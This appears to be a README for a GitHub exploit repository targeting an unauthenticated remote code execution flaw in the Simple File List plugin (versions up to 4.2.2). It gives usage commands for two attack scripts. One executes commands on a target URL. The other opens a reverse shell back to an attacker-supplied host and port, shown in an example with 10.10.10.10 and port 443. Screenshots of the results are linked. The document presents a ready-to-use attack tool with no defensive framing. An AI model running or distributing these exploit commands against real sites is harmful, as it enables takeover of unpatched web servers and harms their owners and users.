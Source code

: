 # Unauthenticated Remote Code Execution in Simple File List <= 4.2.2
### Two Scripts; One for basic RCE, the other for a reverse shell

#### Usage: sfl_rce.py
```bash
python3 sfl_rce.py <target_url>
Ex: python3 sfl_rce.py http://example.com
```
![image](https://user-images.githubusercontent.com/28818635/121764667-a64fd900-cb13-11eb-9aa7-9ea92a7e5bae.png)

#### Usage: sfl_rev.py
```bash
python3 sfl_rev.py <target_url> <lhost> <lport>
Ex: python3 sfl_rev.py http://exaple.com 10.10.10.10 443
```
![image](https://user-images.githubusercontent.com/28818635/121764681-c089b700-cb13-11eb-854b-036c8d54e646.png)
